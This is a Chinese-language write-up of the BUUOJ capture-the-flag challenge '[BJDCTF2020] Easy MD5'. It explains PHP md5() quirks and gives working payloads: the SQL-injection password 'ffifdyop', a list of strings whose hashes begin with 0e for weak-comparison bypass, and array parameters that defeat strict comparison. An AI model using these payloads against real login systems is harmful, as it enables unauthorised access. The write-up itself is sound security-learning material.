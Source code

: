 2025年10月22日23:28:02，满血复活！玩了一天游戏，开刷！

buuoj

# [BJDCTF2020]Easy MD5

简单的md5，看来和md5-hash有关

网页源代码没线索，框中是用GET方法传入的password参数，查询也没有回显，

还给了一个github链接：https://github.com/BjdsecCA/BJDCTF2020

看了一下是wp的合集，还是先不要看题解吧（笑

没有什么线索的时候，用burpsuite抓包试试看：

没想到这次线索藏在response的报头里！长见识了：

hint: select * from 'admin' where password=md5($pass,true)

看来我们传入的password在经过一个md5(_,true)之后作为了sql查询的条件，

不过其实这个md5函数是在php里实现的，这样写应该只是为了作为提示。

----

关于md5():

- 语法：
    - string md5($str,raw)
- 参数：
    - $str:是一个字符构成的字符串
    - raw:指定十六进制或ascii字符输出格式
- 返回值：
    - 计算成功就返回md5值；失败则返回false

1. 基础使用
   
```php
echo md5('hello');
```

output:

```php
5d41402abc4b2a76b9719d911017c592
```

2. 输出格式(raw)

原始的md5编码应该是一个128位的二进制数，
当raw为true，将其每8位分隔，每一段转换为0-255的ascii编码字符，返回这个字符串；
当raw为false，将其每4位分隔，每一段转换成hex数0-f，返回这个16进制数

```php
var_dump(md5('hello', true));
var_dump(md5('hello', false));
```

Output:

```php
string(16) "]A@*�K*v�q��Œ"
string(32) "5d41402abc4b2a76b9719d911017c592"
```

3. 科学计数法（0e绕过）
   
MD5遇到公式的时候会先进行运算，再根据运算结果来计算md5.

这里的"公式"包括，科学计数法，以及一般的算术运算，还有处理字符串的功能：

当字符串与数字类型运算时，会将字符串转换成数字类型，再参与运算，最后计算运算结果的MD5值。

数字相同时，数值型和字符串的计算结果是相同的。

```php
echo md5(0).PHP_EOL;
echo md5(0e123).PHP_EOL;
echo md5(0e456).PHP_EOL;
echo md5(0E456);

echo md5(1+2).PHP_EOL;
echo md5(3).PHP_EOL;
echo md5(1*2).PHP_EOL;
echo md5(2).PHP_EOL;
echo md5(1&1).PHP_EOL;
echo md5(true);

echo md5('1'+2).PHP_EOL;
echo md5(3).PHP_EOL;
echo md5('1'*2).PHP_EOL;
echo md5(2);
```

Output:

```php
cfcd208495d565ef66e7dff9f98764da
cfcd208495d565ef66e7dff9f98764da
cfcd208495d565ef66e7dff9f98764da
cfcd208495d565ef66e7dff9f98764da

eccbc87e4b5ce2fe28308fd9f2a7baf3
eccbc87e4b5ce2fe28308fd9f2a7baf3
c81e728d9d4c2f636f067f89cc14862c
c81e728d9d4c2f636f067f89cc14862c
c4ca4238a0b923820dcc509a6f75849b
c4ca4238a0b923820dcc509a6f75849b

eccbc87e4b5ce2fe28308fd9f2a7baf3
eccbc87e4b5ce2fe28308fd9f2a7baf3
c81e728d9d4c2f636f067f89cc14862c
c81e728d9d4c2f636f067f89cc14862c
```

注意到0exxxx全都会被parse成0，利用这点我们可以得到一个绕过弱比较(==)思路：

```
var_dump(md5(0e123) === md5(0e456));
var_dump(md5(0e123) == md5(0e456));
```

Output:

```
bool(true)
bool(true)
```

0e绕过还有一种变体：如果某个字符串的MD5值是0e开头的，在比较时，PHP也会先把它计算成 0，再参与比较。

```php
echo md5('QNKCDZO').PHP_EOL;
var_dump(md5('QNKCDZO') == 0);
```

Output:

```php
0e830400451993494058024219903391
bool(true)
```

一些md5值为0e开头的字符串：

> QNKCDZO   => 0e830400451993494058024219903391
> 240610708 => 0e462097431906509019562988736854
> s878926199a => 0e545993274517709034328855841020
> s155964671a => 0e342768416822451524974117254469
> s214587387a => 0e848240448830537924465865611904
> s214587387a => 0e848240448830537924465865611904

4. 数组类型

MD5()不可以处理数组，数组都会返回null，同时会报一个不影响执行的Warning

```php
var_dump(md5([1,2]));
var_dump(md5([3,4]));
```

Output:

```php
Warning: md5() expects parameter 1 to be string,
NULL
Warning: md5() expects parameter 1 to be string,
NULL
```

绕过思路，遇到强比较(a===b)的时候，可以使用数组绕过，用a[]=1&a[]=2来传递GET数组。

```php
$a = array(1,2,3);
$b = array(4,5,6);
 
var_dump(md5($a)===md5($b));
```

Output:

```php
Warning: md5() expects parameter 1 to be string,
Warning: md5() expects parameter 1 to be string,
bool(true)
```

----

在这里我们使用一个md5万能密码：

ffifdyop

其Md5的hex值是：

276f722736c95d99e921722cf9ed621c

其ascii形式是：

'or'6???????????

其中?代表的是一些乱码之类的，总之这样就足够了，因为sql会把这样的以数字开头的字符串在bool需求下转换成true！

所以可以说简直是神来之笔，这个必须狠狠记下来了。

因此我们传入这个万能密码：

来到了下一步，这次html代码里就有线索：

```php
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
```

这里是弱比较，直接用一手我们新学的0e绕过：

?a=QNKCDZO&b=240610708

用这几个字符串，因为毕竟要求a,b不相等

下一步：

```php

<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
} 

```

这次是强不相等，就让我们使用一手数组绕过吧！

param1[]=1&param1[]=2&param2[]=3&param2[]=4

返回为Null的时候可以满足强相等！

得到flag。








